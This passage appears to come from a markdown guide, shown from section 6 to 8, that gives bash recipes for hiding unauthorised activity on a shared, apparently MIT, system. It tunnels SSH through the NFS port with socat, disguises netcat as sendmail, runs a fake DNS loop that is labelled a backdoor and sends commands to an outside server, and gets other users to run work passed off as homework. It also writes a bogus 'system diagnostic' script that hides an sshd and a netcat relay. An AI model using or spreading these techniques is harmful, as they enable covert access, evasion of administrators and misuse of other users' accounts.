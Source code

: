 #### 6. The Network Traffic Masquerade
```bash
# Hide your SSH development as "NFS traffic"
$ # Tunnel through NFS port
$ socat TCP-LISTEN:2049,reuseaddr,fork TCP:suspicious.server.com:22 &

$ # Make your netcat look like sendmail
$ exec -a "sendmail -q30m" nc -l -p 25 | ./crypto_chat

$ # The "DNS Query" (actually a backdoor)
$ while true; do
    echo "Querying nameserver..." # for show
    nc -u -w1 ns.mit.edu 53 < /dev/urandom | head -c 100 > /dev/null
    nc -u -w1 my.real.server.com 31337 < commands.txt
    sleep 300  # "DNS cache timeout"
  done
```

#### 7. The CPU Time Laundering
```bash
#!/bin/bash
# Spread CPU usage across multiple users (if you have friends)

# Split your job into pieces
split -n 10 big_computation.sh chunk_

# Have your friends run pieces
for i in {0..9}; do
  echo "Hey user$i, run this 'homework': ./chunk_$i" | 
    write user$i
done

# Collect results later
for i in {0..9}; do
  nc -l -p $((31337 + $i)) > result_$i.dat &
done
```

#### 8. The Ultimate Disguise
```bash
# The "System Maintenance" Script
cat > /tmp/system_check.sh << 'EOF'
#!/bin/bash
# MIT System Diagnostic Tool v1.2
# DO NOT INTERRUPT - AUTHORIZED PERSONNEL ONLY

echo "=== MIT SYSTEM DIAGNOSTIC STARTING ==="
echo "Phase 1: Memory verification..."
sleep 3
echo "[OK] Memory checksums valid"
echo "Phase 2: Filesystem integrity check..."

# Actually running your stuff
(./sshd 2>&1 | while read line; do
  echo "[fsck] inode $(($RANDOM % 99999)): $line"
done) &

echo "Phase 3: Network connectivity test..."
# Your netcat tunnels
nc -l -p 22222 <> /tmp/backpipe | nc secret.host 22 <> /tmp/backpipe &

echo "=== DIAGNOSTIC RUNNING - DO NOT TERMINATE ==="
echo "Expected completion: $(date -d '+4 hours')"
echo "Contact sysadmin@mit.edu if urgent"
```